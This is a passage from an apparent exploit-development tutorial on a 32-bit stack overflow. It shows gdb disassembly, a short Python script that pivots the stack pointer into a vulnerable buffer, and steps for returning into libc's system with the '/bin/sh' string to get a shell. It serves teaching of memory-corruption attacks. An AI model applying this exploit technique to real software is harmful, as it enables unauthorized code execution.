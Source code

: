 This program does something strange with the stack pointer: before the return
instruction the prologue sets the stack pointer based on a value saved inside
the current stack frame---the compiler does this for alignment reasons. As a
result, we aren't going to overwrite the saved return address, instead, we are
going to manipulate the value used to set the stack pointer, e.g., instructions
`*main+33 to +40`:

```asm
   # main
   0x0804842c <+33>:    mov    ecx,DWORD PTR [ebp-0x4]
   0x0804842f <+36>:    leave
   0x08048430 <+37>:    lea    esp,[ecx-0x4]
=> 0x08048433 <+40>:    ret
```

By placing break points in gdb, we can get the starting address of the
vulnerable buffer (`b *main+24`) and the location used to set the stack pointer
(`b *main+33`). We want to modify the value at the saved stack pointer location
to that the stack pointer will instead point to the start of our vulnerable
buffer. This will allow us to control the return address used by the  `ret` 
instruction. Of course, we want this return address to be `system`.

```python
# file: exploit32a.py
# output: e32a.in

import struct
import sys

buff_addr = 0xffffc720 
weird_addr = 0xffffc768-4

padding_len = weird_addr - buff_addr
padding = 'a'*padding_len

sys.stdout.write(padding + struct.pack("<I", buff_addr + 4) )
```


It is not enough to manipulate the stack pointer to point to point at a
location we control (i.e., the vulnerable buffer). We also need to make sure
that the new top of the stack is setup to look like what the system  function
would expect when called.

The address of system is easy to find with a gdb command: `x system`, and the
dummy return address can be anything. But how do we get setup the command
argument? Specifically, we need the address of useful command string. We could
include such a string on the stack, either by putting in our vulnerable buffer
or throwing it in an environment variable, but we are going to take a different
approach that use an address that is easier to predict. The solution is to find
an existing command string in libc: "/bin/sh".


**Finding the "/bin/sh" string in libc.** First we find what version of libc is
loaded, where it is loaded in memory, and where the .SO file is on disk using
`info proc map`. Now we can search (outside of gdb) for the "/bin/sh" string in
the .SO file with `strings -a -tx /lib/i386-linux-gnu/libc-2.23.so | grep
/bin/sh`. We can add the offset of this string in the .SO file to the address
of libc in the process to get the actual address of the string.
